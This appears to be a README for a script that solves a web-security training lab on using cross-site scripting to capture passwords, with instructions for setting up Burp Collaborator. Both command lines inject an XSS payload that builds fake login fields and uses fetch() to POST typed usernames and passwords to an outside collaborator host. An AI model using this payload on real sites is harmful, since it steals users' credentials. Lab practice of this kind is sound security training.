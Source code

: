 # How to run script.py

### Exploiting cross-site scripting to capture passwords

Open Burp Collaborator: Open Burp Suite -> Click Burp (top left button) -> Click Burp Collaborator Client -> Click Copy to clipboard -> Now Burp Collaborator Server is running and waiting for requests

Replace the [0-9a-z]{30}.burpcollaborator.net address with the copied one

No Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<input name=username id=username><input type=password name=password onchange=\"if(this.value.length)fetch('https://azdggml78f7wt74gouge0rtlwc22qr.burpcollaborator.net',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });\">"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<input name=username id=username><input type=password name=password onchange=\"if(this.value.length)fetch('https://azdggml78f7wt74gouge0rtlwc22qr.burpcollaborator.net',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });\">" -p 127.0.0.1:8080`
